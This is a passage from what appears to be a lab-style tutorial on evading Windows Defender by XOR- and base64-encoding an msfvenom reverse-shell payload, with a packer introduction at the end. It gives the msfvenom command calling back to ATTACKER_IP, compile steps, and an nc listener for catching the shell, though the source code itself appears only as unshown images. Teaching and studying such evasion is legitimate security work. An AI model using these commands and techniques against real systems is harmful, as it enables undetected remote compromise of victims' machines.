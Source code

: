 Final size of exe file: 7168 bytes

**Creating a Custom Payload**

The best way to overcome this is to use our own custom encoding schemes so that the AV doesn’t know what to do to analyze our payload. Notice you don’t have to do anything too complex, as long as it is confusing enough for the AV to analyze. For this task, we will take a simple reverse shell generated by **msfvenom** and use a combination of **XOR** and **Bese64** to bypass Defender.

Let’s start by generating a reverse shell **msfvenom** in CSharp Format:

> **msfvenom LHOST=ATTACKER\_IP LPORT=443 windows/x64/shell\_reverse\_tcp -f csharp**

**The Encoder**

Before building our actual payload, we will create a program that will take the shellcode generated by **msfvenom** and encode it in any way we like. in this case, we will be **XORing** the payload with a custom key first and then encoding it using base64. Here’s the complete code for the encoder.

![](https://cdn-images-1.medium.com/max/800/1*xZVN6iwNUii5hTAN_BUbsA.png)

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the **buf** variable with shellcode you generated with **msfvenom**.

To compile and execute the encoder, we can use the following commands on the Windows machine: **csc.exe Encrypter.cs .\\Encrypter.exe**

**Self-decoding Payload**

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by **XORing** the result with the same key the encoder. Here’s the full payload code:

![](https://cdn-images-1.medium.com/max/800/1*13y0zktfjAk7wcv4vGH3lQ.png)

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won’t complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let’s compile our payload with the following command on the windows machine.

Compile Our Encrypted Payload:

> **csc.exe EncStageless.cs**

Before running our payload, let’s set up **nc** listener, after copying and executing our payload into the victim machine, we should get a connection back as expected.

**Packers**

Another method to defeat disk-based AV detection is to use a packer. **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same. Packers do this with two main goals in mind:

· Compress the program so that it takes up less space

· Protect the program from reverse engineering in general
